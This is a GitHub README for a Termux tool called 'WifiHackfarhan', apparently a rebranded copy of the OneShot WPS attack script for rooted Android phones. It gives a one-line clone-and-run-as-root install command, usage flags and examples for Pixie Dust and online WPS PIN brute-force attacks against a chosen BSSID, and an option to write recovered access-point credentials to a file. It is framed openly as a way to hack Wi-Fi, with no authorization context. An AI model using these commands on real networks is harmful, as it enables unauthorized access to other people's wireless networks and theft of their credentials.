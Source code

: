 ### One click Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone --depth 1 https://github.com/Gtajisan/WifiHackfarhan && cd WifiHackfarhan && sudo python WifiHackfarhan.py -i wlan0 -K && sudo python WifiHackfarhan/WifiHackfarhan.py -i wlan0 -K
```
### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://i.ibb.co/k3YjL2K/Screenshot-20231003-083750-Termux.png""></p>

## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 ```
 ```
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
### Getting WifiHack
 ```
 git clone --depth 1 https://github.com/Gtajisan/WifiHackfarhan
 ```
 ```
 cd WifiHackfarhan
 ```
### Running
 ```
 sudo python WifiHackfarhan.py -i wlan0 -K
 ```
### One line Command
 ```
 sudo python WifiHackfarhan/WifiHackfarhan.py -i wlan0 -K
 ```

# Usage
```
 farhan.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Than all root users 
* FARHAN X ME
## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)

## [Whatsapp](https://wa.me/+880130505723*)

## Thanks For Using This Tool 🐸🙄
## ki obsta 🤡
## cd WifiHackfarhan
## sudo python WifiHackfarhan/WifiHackfarhan.py -i wlan0 -K

